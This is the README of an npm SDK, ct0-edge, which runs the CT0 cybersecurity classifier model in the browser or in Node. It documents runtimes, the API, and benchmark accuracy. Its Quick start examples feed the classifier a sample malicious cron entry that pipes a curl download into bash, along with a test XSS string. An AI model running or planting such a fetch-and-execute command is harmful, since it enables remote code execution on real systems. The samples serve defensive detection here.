

# ct0-edge

Run **CT0** ([alias3-micro-1026](https://huggingface.co/aliasrobotics/alias3-micro-1026), the security model by Alias Robotics) on the device, in the browser or in Node, behind one call: `CT0.load()`.

## Install

```bash
npm i ct0-edge @huggingface/transformers
```

Then add the package for the runtime you use (`"auto"` needs the ONNX Runtime one):

| runtime | browser | Node |
|---|---|---|
| `genai`, `decode-only`, `"auto"` | `npm i "onnxruntime-web@^1.30"` | `npm i onnxruntime-node` |
| `transformers.js` | nothing else | nothing else |
| `webllm` | `npm i @mlc-ai/web-llm` | — |

On Linux, the CUDA provider of `onnxruntime-node` 1.30 needs the CUDA 13 runtime (cuBLAS 13, cuDNN 9, driver 580 or newer); without it `"auto"` falls back to `transformers.js` on the CPU and `ct0.fallbackReason` says why.
A missing package fails with an error that names it. In Node the model files are downloaded once to `~/.cache/ct0-edge`.

## Quick start

**Browser**

```js
import { CT0 } from "ct0-edge";

// picks the best runtime for this machine
const ct0 = await CT0.load({ onStatus: console.log });
const state = "path: /etc/cron.d/x\ncontent: * * * * * curl http://x/y | bash";

// yes/no -> { type: "noul", method: "logits", raw, p }   (p = P(yes))
await ct0.ask({ kind: "noul", state, q: "Is this a suspicious indicator of compromise?" });

// multiple choice -> { type: "choice", choice: { "dom-xss": 0.01, ... }, top: "exfil-egress" }
await ct0.ask({ kind: "choice", state, options: ["dom-xss", "info-disclosure", "exfil-egress"] });

// severity 1-5 -> { type: "score", raw, level: 4 }
await ct0.ask({ kind: "score", state });

const prompt = `Explain this cron entry:\n${state}`;
for await (const piece of ct0.generate(prompt, { maxNewTokens: 128 })) console.log(piece);
```

**Node**

```js
import { CT0 } from "ct0-edge";

const ct0 = await CT0.load();             // decode-only on the CPU (genai on a CUDA machine)
console.log(ct0.runtime, ct0.device);     // "decode-only" "cpu"
const state = "GET /?q=<script>alert(1)</script>";
const r = await ct0.ask({ kind: "noul", state, q: "Is this request an attack?" });
console.log(r.p);
await ct0.dispose();
```

`generate()` is stateless: `ask()` and `generate()` keep no context between calls, so put the content in the prompt itself.
For multi-turn or agent loops, build the full prompt and use `stream()`.

CT0 answers in two modes ([paper, arXiv:2610.16550](https://arxiv.org/abs/2610.16550) · [model card](https://huggingface.co/aliasrobotics/alias3-micro-1026)):
**System 1**, typed security decisions in a single forward pass through the bilinear pointer head (`ask()`), and **System 2**, generation (`generate()`).

## Pick a runtime

| runtime | browser | Node | size | time / decision ¹ | quality vs the original ² | decisions changed vs the original ⁴ |
|---|---|---|---|---|---|---|
|  **`genai`** · ONNX Runtime GenAI | ✅ WebGPU | ✅ CUDA · ❌ CPU | 2.44&nbsp;GB | **~0.5 s** browser | 🟢&nbsp;55&nbsp;·&nbsp;48&nbsp;·&nbsp;26 | 11.6–14.5% |
|  **`decode-only`** · ONNX Runtime | ✅ WebGPU · WASM | ✅ CPU · CUDA | 3.03&nbsp;GB | 20.7 s browser · ~58 s Node CPU | 🟢&nbsp;55&nbsp;·&nbsp;48&nbsp;·&nbsp;26 | 10.5–14.5% |
|  **`transformers.js`** | ✅ WebGPU · WASM | ✅ CPU · CUDA | 3.04&nbsp;GB | 7.4 s browser · 0.8 s Node CUDA | 🟢&nbsp;55&nbsp;·&nbsp;48&nbsp;·&nbsp;26 | 10.5–14.5% |
|  **`webllm`** · MLC q4f32_1 | ✅ WebGPU | ❌ | 2.37&nbsp;GB | 5.8 s browser | 🟢&nbsp;54&nbsp;·&nbsp;🟢&nbsp;45&nbsp;·&nbsp;🟡&nbsp;22<br>head via recovery ³ | 13.4–14.0% |
| ↳ `webllm` with `mlc: { build: "q4f16_1" }` · faster, less faithful | ✅ WebGPU | ❌ | 2.37&nbsp;GB | 4.3 s browser | 🟢&nbsp;52&nbsp;·&nbsp;44&nbsp;·&nbsp;25<br>head via recovery ³ | 10.5–19.8% |

```js
await CT0.load();                               // auto
await CT0.load({ runtime: "genai" });           // ONNX Runtime GenAI graph, int4
await CT0.load({ runtime: "decode-only" });     // ONNX Runtime Web / Node, q4
await CT0.load({ runtime: "transformers.js" }); // optimum export via transformers.js, q4
await CT0.load({ runtime: "webllm" });          // MLC, q4f32_1
```

`"auto"`: browser with WebGPU → `genai` (fallback `decode-only` on WebGPU); browser without WebGPU → `decode-only` on WASM;
Node with CUDA → `genai` (fallback `transformers.js` on CUDA, then CPU); Node on CPU → `transformers.js` (the fastest measured CPU path, ~8–10 s per decision vs ~58 s for `decode-only`).

¹ Browser: Chrome WebGPU on an Apple M2 Pro, median per question (genai: hot prefill; WebLLM: mean). Node CUDA: mean per question on an A40. Node CPU: mean of three questions on a 56-vCPU server (RTX A5000 host).

² Correct answers on **our decision test set**, 172 security questions with known answers that we wrote (not part of the CT0 release): yes/no /65 · multiple choice /57 · severity /50.
The original model (PyTorch bf16, as released) answers 54 · 46 · 26; 🟢 = within 2 answers of it.

³ WebLLM runs the heads on the hidden state recovered from the logits (`recovery/` and `heads/` in each MLC repo); 🟡 = 3+ below the original, not significant. If the recovery files fail to load, every question type reads the logits and `ct0.fallbackReason` says so.

⁴ Share of the 172 questions whose answer differs from the original's (lowest–highest of the logits and head reads; `genai`: the CUDA int4 file). Overall accuracy is not statistically distinguishable from the original (none of 180 paired tests reaches p < 0.05).

### Experimental: `runtime: "litert"` (LiteRT.js)

> ⚠️ **Experimental.** LiteRT.js `@litertjs/core` **2.6.0** (pinned), browser **WebGPU only** (the CT0 weights do not
> fit the 2 GiB LiteRT.js Wasm heap, so they are streamed into WebGPU buffers), **logits reads only** (the graph has no
> hidden-state output), never chosen by `"auto"`. Loading prints a console warning saying so.
> The CT0 bundle is **not published yet**: self-host it and pass `litertBaseUrl`.

```bash
npm i ct0-edge @huggingface/transformers @litertjs/core@2.6.0
```

```js
const ct0 = await CT0.load({ runtime: "litert", litertBaseUrl: "https://your.host/ct0-litert/" });
// bundle: manifest.json · model.graph.tflite · model.weights.bin (streamed) · embed.f16.bin (rows read with HTTP Range)
```

How it works: CT0 exported with litert-torch with the Gated-DeltaNet **decomposed** (LiteRT.js does not register the
fused `gated_delta_update` op), a GQA fix so the graph is fully WebGPU-delegated, int4 FullyConnected weights moved to
LiteRT external buffers and streamed with `loadModelAndWeights`. The backend owns the recurrent/conv/KV state (zeros
per question), so there is no state leak between calls. Server needs: HTTP Range for `embed.f16.bin`.

Measured on the full CT0 bundle (HF rev `61c0e710`, int4 blockwise-32 FC weights 2.1 GB streamed + fp16 embedding
rows read on demand), Apple M2 Pro, Chrome WebGPU, 20 questions of our decision set (7 yes/no, 7 choice, 6 severity):

| | `litert` WebGPU | native LiteRT CPU (same bundle) | `genai` int4 (reference) |
|---|---|---|---|
| answers equal to the fp32 reference | **19/20** | 17/20 | 17/20 |
| yes/no p vs genai int4 | max \|Δp\| 0.058 | 0.039 | — |
| greedy 12 tokens vs PyTorch fp32 | 9/12 (first 8 identical) | 9/12 | — |
| load | 24.8 s | 7.0 s | — |
| time / decision (median · max) | **3.2 s · 15.5 s** (534 tokens) | 7.3 s · 31 s | ~0.5 s browser |

Not in `"auto"`: it is about 6x slower per decision than `genai` in the browser (the export has a 16-token prefill
signature; a larger one needs more than 62 GB of RAM to export).

## API

### `CT0.load(options)`

| option | default | |
|---|---|---|
| `runtime` | `"auto"` | `"genai"`, `"decode-only"`, `"transformers.js"`, `"webllm"`. A forced runtime has no fallback. |
| `device` | `"auto"` | `"webgpu"` or `"wasm"` in the browser, `"cpu"` or `"cuda"` in Node. |
| `heads` | `true` | loads `heads/head.bin` and `heads/head_score.bin` from the runtime's repo. |
| `maxSafeTokens` | per runtime | longest prompt `ask()` accepts: genai WebGPU 7200, decode-only WebGPU 3600, decode-only Node CPU 7200 (measured, 10% margin); 2048 elsewhere (`RUNTIME_LIMITS`). |
| `genaiRepo` / `genaiModel` | `alias3-micro-1026-ONNX-genai` / `webgpu/int4/model.onnx` (Node: `cuda/int4/model.onnx`) | genai graph (data file: `<model>.data`). |
| `repo` / `decodeModel` | `alias3-micro-1026-ONNX-decode-only` / `onnx/model_q4.onnx` | decode-only graph and the tokenizer. |
| `transformersRepo` / `dtype` | `alias3-micro-1026-ONNX` / `"q4"` | transformers.js graph. |
| `mlc` | `{ build: "q4f32_1" }` | WebLLM: `build` (`"q4f32_1"`, or `"q4f16_1"`: faster, less faithful), `modelUrl`, `modelLib`, `appConfig`, `recovery` (`false`: logits only), `initProgressCallback`. Tokenizer, heads and recovery come from the MLC repo. |
| `baseUrl`, `genaiBaseUrl` | | self-hosting (a URL, or a directory in Node). With only `baseUrl`, `"auto"` uses the decode-only graph. |
| `providers` | from `device` | decode-only execution providers. |
| `verifyEp` | `false` | browser genai: check once that the graph runs on the WebGPU EP (one extra session at first load). |
| `genai` | | extra genai options (`chunk`, ...). |
| `cacheDir` | `~/.cache/ct0-edge` | Node: where downloaded graphs are kept. |
| `modules` | | `{ ort, transformers, webllm }` modules to use instead of importing them. |
| `onStatus` | | progress messages. |

`ct0.runtime` and `ct0.device` tell what loaded; `ct0.fallbackReason` says why `"auto"` did not use `genai`.

### `ask(question, { method, scoreCuts })`

| kind | input | returns | default read |
|---|---|---|---|
| `noul` | `{ kind, state, q }` | `p` = P(yes), `raw` | `logits` |
| `choice` | `{ kind, state, options }` | `choice` (probability per option), `top` | `head` (`head.bin`) |
| `score` | `{ kind, state, levels? }` | `level` 1..5, `raw` (head), `expected` (logits) | `head` (`head_score.bin`) |

Pass `{ method: "head" }` or `{ method: "logits" }` to override. The logits read needs no head and works on every runtime;
`webllm` falls back to it for every type when its recovery files cannot load. `ct0.defaultMethod` shows the reads in use.
`{ method: "both" }` returns the head result with the logits read of the same forward pass in `result.logits`.

For `score`, the logits read also returns `expected`, the sum of level × softmax of the logits of the digits 1..5.
`scoreCuts` maps a value to a level with 4 ascending cuts (K-1 for `levels: K` on the head): level = 1 + the number of cuts
≤ value. The value is `raw` on the head and `expected` on the logits. Without cuts the head uses round(sigmoid(raw)·4 + 1)
and the logits use the argmax digit. With `"both"`, pass `{ head: [...], logits: [...] }`.

### `askMany(state, questions, options)`

Several questions about one `state`: same results as `ask()` for each question, in order (each question may omit `state`).

```js
const [isRisk, kind, sev] = await ct0.askMany(state, [
  { kind: "noul", q: "Does this excerpt write untrusted input into the DOM?" },
  { kind: "choice", options: ["dom-xss", "info-disclosure", "exfil-egress"] },
  { kind: "score" },
]);
```

On `genai` and `decode-only` the shared start of the prompts (system turn and state) runs once and each question runs only
its own tokens (decode-only: identical numbers; genai: the chunk split moves, so numbers can differ slightly, like another
`chunk` size). `transformers.js` and `webllm` make one `ask()` per question.

### `generate(prompt, options)` and `stream(rawPrompt, options)`

Streaming text (stateless, see Quick start). `generate` wraps `prompt` in one chat turn; for multi-turn or agent loops, build the full
prompt yourself and use `stream()`. Options: `maxNewTokens` 512, `temperature` 0.7 (`<= 0` is greedy), `topP` 0.9, `topK` 40,
`repetitionPenalty` 1.1, `seed` 0, `system`, `think`, `signal` (AbortSignal).

## Benchmarks



Source: our decision test set run on every published build; quality is compared with the original model (PyTorch bf16).
Full charts per build are on the Hugging Face model cards (below). Figure on npm: [pick a model](https://raw.githubusercontent.com/eduardoworrel/ct0-edge/main/docs/bench/pick-a-model.svg).

## Advanced: low-level backends

Every runtime is a `Backend` (`prefill`, `generate`, `dispose`), so `ask()` and `askMany()` from `ct0-edge/ask` work on
any of them. genai and decode-only also have `snapshot(ids)` / `prefillFrom(handle, ids, want)`, which `askMany()` uses.
Calls on one backend run one at a time.

| import | runtime | graph |
|---|---|---|
| `ct0-edge/genai` (`createGenai`) | onnxruntime-web, WebGPU | ONNX Runtime GenAI int4 |
| `ct0-edge/decode-only` (`createDecodeOnly`) | onnxruntime-web / onnxruntime-node | decode-only (one token per run) |
| `ct0-edge/transformers` (`createTransformersJs`) | transformers.js | optimum-exported graph |
| `ct0-edge/webllm` (`createWebllm`) | WebLLM (MLC) | MLC q4f16_1 / q4f32_1 |
| `ct0-edge/ask`, `ct0-edge/systemone`, `ct0-edge/positions` | | `ask()`, `askMany()`, the heads, the prompts and token positions |

```js
import { createTransformersJs } from "ct0-edge/transformers";
import { ask } from "ct0-edge/ask";
import { loadHead } from "ct0-edge/systemone";
import { AutoTokenizer } from "@huggingface/transformers";

const repo = "eduardoworrel/alias3-micro-1026-ONNX";
const be = await createTransformersJs(repo, { dtype: "q4", device: "cpu" });
const tok = await AutoTokenizer.from_pretrained(repo);
const head = async (f) => loadHead(await (await fetch(`https://huggingface.co/${repo}/resolve/main/heads/${f}`)).arrayBuffer());
const r = await ask(be, tok, { noulChoice: await head("head.bin"), score: await head("head_score.bin") }, { kind: "score", state: "..." });
```

```js
import * as webllm from "@mlc-ai/web-llm";
import { createWebllm } from "ct0-edge/webllm";
const modelUrl = "https://huggingface.co/eduardoworrel/alias3-micro-1026-MLC-q4f16_1/";
const be = await createWebllm(webllm, { modelId: "alias3-micro-1026-q4f16_1", modelUrl, libUrl: modelUrl + "resolve/main/model-lib.wasm", tok });
```

## Models

| runtime | Hugging Face repo |
|---|---|
| `genai` (WebGPU int4, CUDA int4 / fp16) | [eduardoworrel/alias3-micro-1026-ONNX-genai](https://huggingface.co/eduardoworrel/alias3-micro-1026-ONNX-genai) |
| `decode-only` | [eduardoworrel/alias3-micro-1026-ONNX-decode-only](https://huggingface.co/eduardoworrel/alias3-micro-1026-ONNX-decode-only) |
| `transformers.js` | [eduardoworrel/alias3-micro-1026-ONNX](https://huggingface.co/eduardoworrel/alias3-micro-1026-ONNX) |
| `webllm` q4f32_1 (default, official WebLLM wasm) | [eduardoworrel/alias3-micro-1026-MLC-q4f32_1](https://huggingface.co/eduardoworrel/alias3-micro-1026-MLC-q4f32_1) |
| `webllm` q4f16_1 (`mlc: { build: "q4f16_1" }`) | [eduardoworrel/alias3-micro-1026-MLC-q4f16_1](https://huggingface.co/eduardoworrel/alias3-micro-1026-MLC-q4f16_1) |

Every repo (ONNX and MLC) includes the heads: `heads/head.bin` (yes/no, multiple choice) and `heads/head_score.bin` (severity).

## Citation

```bibtex
@article{ct0_2026,
  title   = {{CT0}: Cybersecurity Transformer},
  author  = {Mayoral-Vilches, V{\'i}ctor and {Alias Robotics}},
  journal = {arXiv preprint arXiv:2610.16550},
  year    = {2026},
  url     = {https://arxiv.org/abs/2610.16550}
}
```

## License

MIT for this SDK. The model weights follow the license of the [base model](https://huggingface.co/aliasrobotics/alias3-micro-1026).
Runtime logos belong to their owners and only name the runtime ([sources](docs/bench/logos/SOURCES.md)).
